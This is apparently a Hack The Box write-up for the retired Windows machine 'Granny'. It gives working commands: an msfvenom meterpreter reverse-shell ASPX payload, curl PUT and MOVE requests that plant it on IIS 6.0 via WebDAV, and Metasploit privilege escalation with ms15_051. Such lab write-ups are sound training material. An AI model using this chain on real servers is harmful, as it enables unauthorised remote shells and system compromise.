 ```yaml
---
title: Granny Hackthebox Writeup
date: 2021-01-31 16:00:00 +0530
categories: [Hackthebox, Retired]
tags: [windows,http methods,iis 6.0,aspx,metasploit]     # TAG names should always be lowercase
image: /assets/img/granny-hackthebox/granny-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Granny:~$


Column | Details
------------ | -------------
Name | Granny
IP | 10.10.10.15
Points | 20
Os | Windows
Difficult | Low
Creator | [cha4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 12th April 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* `PUT,MOVE` were on of the HTTP Methods allowed.
* Outdated version of IIS is running which allowed code execution by `PUT` and `MOVE` commands
* Got `Root` using `local-exploit-suggester` on metasploit.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/granny-hackthebox/nmap-automator-1.png)

Let's access `Port 80`.

___
![](/assets/img/granny-hackthebox/port-80-2.png)

I straight jumped to what I saw i.e. the `HTTP Methods allowed`, in which *PUT* and *MOVE* were one of them.

Using `davtest` to check the extensions which can be uploaded.

**Command**: *davtest -url http://10.10.10.15*

___
![](/assets/img/granny-hackthebox/davtest-command-4.png)

It doesn't allow `aspx` and `asp` but allows `txt`.

So I thought to create a msfvenom shell with `aspx` extension and rename it to `txt` extension while sending it to the server via `PUT` command and again renaming it to `aspx` extension by using `MOVE` command.

**msfvenom command**: *msfvenom -p windows/meterpreter/reverse_tcp -f aspx LHOST=10.10.X.X LPORT=1234 -o shell.aspx*

**renaming command**: *mv shell.aspx shell.txt*

**PUT command**: *curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt*

**MOVE command**: *curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt*

___
![](/assets/img/granny-hackthebox/msfvenom-commands-2.png)

Accessing `http://10.10.10.15/shell.aspx` and listening on `multi/handler` on metasploit.

**Metasploit command**:

___
![](/assets/img/granny-hackthebox/meterpreter-shell-1.png)

Getting shell:

___
![](/assets/img/granny-hackthebox/got-shell-3.png)

I used `local_exploit_sugester` on metasploit to escalate the privileges.

___
![](/assets/img/granny-hackthebox/exploit-suggester-4.png)

Using `windows/local/ms15_051_client_copy_image`.

___
![](/assets/img/granny-hackthebox/escalating-privs-5.png)

Got `Root`.

___
![](/assets/img/granny-hackthebox/got-root-6.png)
